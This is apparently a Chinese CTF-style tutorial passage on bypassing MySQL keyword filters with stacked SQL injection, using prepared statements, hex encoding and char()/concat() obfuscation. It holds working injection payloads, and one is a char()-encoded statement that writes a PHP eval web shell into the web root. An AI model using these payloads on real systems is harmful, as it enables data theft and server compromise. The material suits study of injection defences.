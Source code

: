 PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(hello)供之后调用

EXECUTE：执行命令

DEALLOCATE PREPARE：释放命令

SET：用于设置变量(@a)

```
1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#
```
这里还用大小写简单绕了一下其他过滤

MySql 预处理配合十六进制绕过关键字
基本原理如下：

```
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
| mysql              |
| performance_schema |
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
```

即payload类似如下：
```
1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#
```
MySql预处理配合字符串拼接绕过关键字
原理就是借助char()函数将ascii码转化为字符然后再使用concat()函数将字符连接起来，有了前面的基础这里应该很好理解了：
```
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```
也可以不用concat函数，直接用char函数也具有连接功能：
```
```